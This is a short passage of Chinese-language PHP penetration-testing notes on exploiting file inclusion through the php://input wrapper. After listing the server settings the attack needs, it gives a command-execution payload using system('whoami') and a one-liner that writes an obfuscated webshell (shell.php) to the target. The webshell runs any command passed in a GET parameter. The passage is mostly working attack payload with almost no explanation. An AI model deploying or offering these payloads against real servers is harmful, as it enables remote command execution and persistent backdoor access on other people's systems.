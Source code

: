 利用条件：

```
1. PHP.ini 中 allow_url_include= On
2. php <5.0 ，allow_url_include=Off 也可以
```

`php://input`是个可以访问请求的原始数据的只读流。使用时，将要输入的数据以post方式提交

**命令执行**

![](img/8.png)

```
<?php system('whoami');?>
```

**生成一句话木马**

![](img/9.png)

```
<?php fputs(fopen('shell.php','w'),'<?=`{${~"\xa0\xb8\xba\xab"}[1]}`;');?>
```

